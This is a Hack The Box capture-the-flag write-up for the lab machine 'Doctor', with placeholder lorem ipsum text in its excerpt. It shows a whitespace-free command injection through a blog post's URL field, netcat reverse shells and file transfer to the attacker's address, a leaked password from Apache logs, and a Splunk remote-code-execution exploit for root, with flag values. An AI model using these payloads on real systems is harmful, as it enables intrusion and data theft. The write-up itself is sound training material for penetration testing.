```yaml
---
layout: single
title: Doctor - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-11-04
classes: wide
header:
  teaser: /assets/images/htb-writeup-doctor/doctor_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-doctor/doctor_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:/git/htb/doctor# nmap -Pn -n -sC -sV 10.10.10.209
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 12:51 CEST
    Nmap scan report for 10.10.10.209
    Host is up (0.035s latency).
    Not shown: 997 filtered ports
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Doctor
    8089/tcp open  ssl/http Splunkd httpd
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Splunkd
    |_http-title: splunkd
    | ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
    | Not valid before: 2020-09-06T15:57:27
    |_Not valid after:  2023-09-06T15:57:27
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
    + http://10.10.10.209/index.html (CODE:200|SIZE:19848)

    NIKTO:
    -


2. Visiting the http://10.10.10.209 we find a domain name, doctors.htb - add it to /etc/hosts. Three potential users, Jade Guzman,
   Hannah Ford, James Wilson, and blog posts by Admin. We find nothing more of interest so lets move ahead to http://doctors.htb.

   We are greeted with a login promtp. Trying different email addresses it seems like the error message is the same no matter what.
   Sign up to the site and create an account. Once logged in we are able to create a post, and update our profile.

   Our first post is at http://doctors.htb/post/2, notice that the first post got number 2 in the url. Visit http://doctors.htb/post/1
   and we find a post by user Admin.

      admin 2020-09-18
      Doctor blog

      A free blog to share medical knowledge. Be kind!

   We can view all post by user Admin on http://doctors.htb/user/admin, however he's only done one.


3. From the post content field we have code execution through a URL validation function. All URL's posted in the content field
   will be executed to see if valid, giving us some kind of Code Execution.

   Content: http://10.10.14.9:4488

   root@nidus:/git/htb/doctor# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 42406
    GET / HTTP/1.1
    Host: 10.10.14.9:4488
    User-Agent: curl/7.68.0
    Accept: */*

   Trying to setup reverse payload through php etc doesn't do anything, so I think we need to do the RCE in the URL.
   After a while I found the post from 'Shift or Die' about Shell Injection without withspaces and played around with that.
   Reading the forums + tweaking that one line eventually gave me a reverse shell.

   Content: http://10.10.14.9/$(nc.traditional$IFS'10.10.14.9'$IFS'4488'$IFS-e/bin/sh)

   root@nidus:/git/htb/doctor# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 42612
    whoami
      web


3. Upgrade the shell ( python3 -c 'import pty;pty.spawn("/bin/bash")'; )
   Once we have a foothold, the first dir we land in has a script called blog.sh, we see the script pointing towards a database file
   and we get a secret key(?).

   web@doctor:~$ cat blog.sh
    #!/bin/bash
    SECRET_KEY=1234 SQLALCHEMY_DATABASE_URI=sqlite://///home/web/blog/flaskblog/site.db /usr/bin/python3 /home/web/blog/run.py

   Transfer the database file to your local computer and investigate it.
    root@nidus:/git/htb/doctor# nc -lp 1234 > site.db
    web@doctor:~/blog/flaskblog$ nc -w 3 10.10.14.9 1234 < site.db

    root@nidus:/git/htb/doctor# sqlite3 site.db
      SQLite version 3.33.0 2020-08-14 13:23:32
      Enter ".help" for usage hints.
      sqlite> .tables
        post  user
      sqlite> .schema user
        CREATE TABLE user (
        	id INTEGER NOT NULL,
        	username VARCHAR(20) NOT NULL,
        	email VARCHAR(120) NOT NULL,
        	image_file VARCHAR(20) NOT NULL,
        	password VARCHAR(60) NOT NULL,
        	PRIMARY KEY (id),
        	UNIQUE (username),
        	UNIQUE (email)
        );
      sqlite> .header ON
      sqlite> select * from user;
        id|username|email|image_file|password
        1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
        2|p3|p3@p3.se|default.gif|$2b$12$foJvOG4jKtMmHjJ6n6YU7unB2zQQnIDlYqHkvvttNKsafJyFn/9DK

    The hashes for me are unknown, and using Kali's 'hash-identifier' gives nothing. Crackstation are unable to crack the hashes, so
    this might be a rabbit hole.


4. Enumerate the logs! As the box image suggests the logs should be a part of this box. Looking through /var/log/apache2 we find
   backup sticking out like a sore thumb. Grep it for password and we got a hit!

    web@doctor:/var/log/apache2$ cat backup | grep password
      10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"


5. Change to user Shaun and grab user.txt

    web@doctor:/var/log/apache2$ su shaun
    Password: Guitar123

    shaun@doctor:/var/log/apache2$
    shaun@doctor:/var/log/apache2$ cat ~/user.txt
      9ebedf116da41ba52906a5ab9ca5d8f8


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking at the running processes we see that splunkd is running as root on port 8089.

root        1129  0.2  2.2 280284 91684 ?        Sl   Sep27   2:58 splunkd -p 8089 start

Googling around for Splunk exploits I came across a script called PySplunkWhisperer2_remote.py, that can be used for RCE. As Splunk
is running as root, in our case, we can probably use this RCE to gain a root shell.


2. The script syntaxes and how to use them, especially payload, was difficult for me to graps. After some further googling I found
a page from eapolsniper, explaning a lot of different ways on how to use this exploit. With this new found knowledge;

Setup a local nc listener.

Exploit:
root@nidus:/git/htb/doctor# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh 10.10.14.9 4488" --lhost 10.10.14.9
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpre8z_d99.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.9:8181/
10.10.10.209 - - [05/Nov/2020 12:13:19] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

root@nidus:/git/htb/doctor# nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 56250
whoami
root
cat /root/root.txt
45f20a790d86b9e8334d447f9e878605


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Shell Injection - nc.traditional
  https://shiftordie.de/blog/2011/12/23/shell-injection-without-whitespace/

SQLite3 CLI:
  https://sqlite.org/cli.html

Splunk Exploit:
  https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py
  https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/

